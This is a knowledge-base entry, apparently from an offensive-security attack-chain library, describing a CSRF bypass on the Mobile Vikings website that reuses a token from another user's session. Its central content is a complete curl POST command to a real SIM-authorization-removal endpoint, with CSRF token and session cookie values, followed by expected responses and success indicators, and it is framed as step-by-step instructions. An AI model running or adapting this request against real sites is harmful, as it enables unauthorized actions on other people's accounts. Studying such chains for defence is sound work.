

---
tags:
  - csrf
  - web
  - django
  - token-bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Bypass-CSRF-with-Cross-Session-Token]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:03.744Z'
description: >-
  Demonstrates bypassing CSRF protections by using valid tokens from other user
  sessions to perform unauthorized actions like SIM authorization removal.
skill_level: intermediate
impact_level: medium
id: 45bd4a54-63c9-4163-acb2-d13e3d1b9671
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Bypass Using Cross-Session Tokens on Mobile Vikings Website

Multi-stage attack chain demonstrating a complete attack workflow exploiting improper CSRF token validation in a Django-based web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-csrf-bypass]]

### Target Environment

- Web platform using Django framework
- Services: HTTP/HTTPS on standard ports (80/443)
- Tech stack: Django, nginx/1.4.2

### Initial Access Requirements

- Valid user session on the target site (e.g., Mobile Vikings)
- Access to another user's valid CSRF token (e.g., via prior session capture or XSS)
- Network access to the target domain (mobilevikings.be)

## Detailed Attack Procedures

### Step 1: Execute CSRF Bypass with Cross-Session Token
procedure: [[procedures/Bypass-CSRF-with-Cross-Session-Token]]

**Objective**: Send a POST request to perform an unauthorized action, such as removing SIM authorization, using a CSRF token from a different session to bypass validation.

**Instructions**: Obtain a valid CSRF token from another user session (e.g., 'LI6qbdczbgPPQ7fxXR3duFENgY1qr3wB'). Use [[commands/curl-csrf-bypass]] to send the request to the target endpoint while setting the mismatched token in the header and cookie:

```bash
curl -X POST 'https://mobilevikings.be/en/sims/authorization/remove/admin/1036359/' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:35.0) Gecko/20100101 Firefox/35.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'X-CSRFToken: LI6qbdczbgPPQ7fxXR3duFENgY1qr3wB' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Referer: https://mobilevikings.be/en/account/authorization/overview/' \
  -H 'Cookie: mobilevikingsbe=fda79999f5d3ea86aee1cac688306948; csrftoken=LI6qbdczbgPPQ7fxXR3duFENgY1qr3wB; cookies.js=1; _ga=GA1.2.843387348.1423586164; utmx=177304377.1C02iW_2TT2rFZKjDPjE7Q$0:0; utmxx=177304377.1C02iW_2TT2rFZKjDPjE7Q$0:1423600511:8035200; __atuvc=5%7C6' \
  -H 'Connection: keep-alive' \
  --data ''
```

**Expected Output**: HTTP 302 redirect to https://mobilevikings.be/en/account/authorization/overview/ with a success message indicating 'Authorization on this SIM card for has been removed.'

**Success Indicators**:
- 302 status code received
- Authorization removal confirmed in response or subsequent page load
- No CSRF validation error

## Attack Chain Summary

### Key Achievements

1. Successfully bypassed session-specific CSRF token binding
2. Performed unauthorized SIM authorization removal
3. Demonstrated potential for chaining with XSS to inject tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
